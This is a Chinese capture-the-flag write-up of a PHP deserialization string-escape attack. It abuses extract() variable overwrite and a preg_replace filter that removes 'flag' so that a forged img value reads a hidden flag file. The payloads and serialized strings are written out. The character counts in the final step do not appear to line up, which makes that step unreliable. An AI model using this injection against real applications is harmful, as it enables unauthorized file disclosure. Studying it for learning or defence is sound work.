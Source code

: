 可控参数有

f，user，function(这里可以利用extract函数进行变量覆盖)

我们查看一下phpinfo里面，发现有个d0g3_f1ag.php文件

基本思路就有了

```
使$userinfo['img']等于ZDBnM19mMWFnLnBocA==，读取d0g3_f1ag.php文件的内容
```

`$_SESSION['img'] = sha1(base64_encode($_GET['img_path']));`这里进行sha1加密就不能base64

解码，所以只能走if这条路

发现这个函数`preg_replace`，想到了可以进行字符串逃逸

我们将变量赋值为

```php
$_SESSION["user"] = 'guest';
$_SESSION['function'] = '11';
$_SESSION['img'] = base64_encode('d0g3_f1ag.php');
```

序列化结果

```
a:3:{s:4:"user";s:5:"guest";s:8:"function";s:2:"11";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}
```

如果想让img参数进行解析，我们需要吃的字符串是`";s:8:"function";s:2:"11`24个字符，6个flag正好是24个字符

赋值

```php
$_SESSION["user"] = 'guestflagflagflagflagflagflag';
$_SESSION['function'] = '11';
$_SESSION['img'] = base64_encode('d0g3_f1ag.php');
```

序列化结果

```
a:3:{s:4:"user";s:29:"guest";s:8:"function";s:2:"11";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}
```

这样img参数就可以解析，但function参数没了，我们要加上function参数

赋值

```php
$_SESSION["user"] = 'guestflagflagflagflagflagflag';
$_SESSION['function'] = '";s:8:"function";s:2:"11";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}';
$_SESSION['img'] = base64_encode('d0g3_f1ag.php');
```

序列化结果

```
a:3:{s:4:"user";s:29:"guest";s:8:"function";s:65:"";s:8:"function";s:2:"11";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}";s:3:"img";s:20:"ZDBnM19mMWFnLnBocA==";}
```
